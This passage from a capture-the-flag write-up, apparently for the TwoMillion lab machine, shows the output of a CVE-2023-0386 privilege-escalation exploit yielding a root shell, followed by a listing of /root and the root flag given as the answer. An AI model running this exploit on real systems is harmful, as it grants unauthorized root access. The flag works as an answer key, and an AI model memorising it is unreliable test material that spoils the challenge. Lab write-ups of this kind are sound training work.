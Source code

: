 ```bash
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
[+] exploit success!
root@2million:/tmp/CVE-2023-0386-main# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Perfect, the exploit worked; we have obtained a shell as `root`! We have successfully exploited `CVE-2023-0386`.

Let's retrieve the root flag to finally complete the TwoMillion box!

```bash
root@2million:~# cd /root
root@2million:/root# ls -la
total 48
drwx------ 8 root root 4096 Aug 10 13:30 .
drwxr-xr-x 19 root root 4096 Jun 6 2023 ..
lrwxrwxrwx 1 root root 9 Apr 27 2023 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Oct 15 2021 .bashrc
drwx------ 2 root root 4096 Jun 6 2023 .cache
drwxr-xr-x 3 root root 4096 Jun 6 2023 .cleanup
drwx------ 4 root root 4096 Jun 6 2023 .gnupg
drwxr-xr-x 3 root root 4096 Jun 6 2023 .local
lrwxrwxrwx 1 root root 9 May 26 2023 .mysql_history -> /dev/null
-rw-r--r-- 1 root root 161 Jul 9 2019 .profile
drwx------ 2 root root 4096 Jun 6 2023 .ssh
-rw-r----- 1 root root 33 Aug 10 13:30 root.txt
drwx------ 3 root root 4096 Jun 6 2023 snap
-rw-r--r-- 1 root root 3767 Jun 6 2023 thank_you.json
root@2million:/root# cat root.txt
bcb5e9d8cfa44d82195a61bd1feda45d
```

**Answer:** `bcb5e9d8cfa44d82195a61bd1feda45d`

Perfect! We have successfully pwned the TwoMillion box, congratulations 🥳!

<img src="./screenshots/9.png" width="80%">
